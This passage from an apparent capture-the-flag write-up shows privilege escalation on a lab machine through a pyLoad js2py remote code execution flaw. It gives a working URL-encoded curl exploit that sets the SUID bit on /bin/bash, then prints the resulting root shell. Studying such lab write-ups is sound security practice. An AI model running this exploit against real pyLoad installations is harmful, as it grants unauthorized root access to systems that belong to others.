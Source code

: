 ```shell
curl -L http://localhost:8000
```

```html
<title>Login - pyLoad </title>
```

### Privilege Escalation

Searching for a vulnerability on pyload, we can find :

https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/

> An unauthenticated attacker can execute arbitrary python code by abusing js2py functionality.
> Also, due to the lack of CSRF protection, a victim can be tricked to execute arbitrary python code

A proof of concept is provided :

```shell
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

The payload `pyimport os;os.system("touch /tmp/pwnd")` is URL-encoded to `%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29`

From out attacker host, we can connect directly to this application with a port forwarding on the SSH sesion :

```shell
ssh sau@10.10.11.214 -N
```

For our purpose, we will use the payload `pyimport os;os.system("chmod u+s /bin/bash")`, that encode into `%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29`

We can remove somr useless options to get the final exploit :

```shell
curl -i -s -k -X POST --data-binary 'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa' http://127.0.0.1:8000/flash/addcrypted2
```

We can check :

```shell
$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

And exploit to get a root access :

```shell
sau@pc:~$ /bin/bash -p
bash-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) groups=1001(sau)
bash-5.0#
```
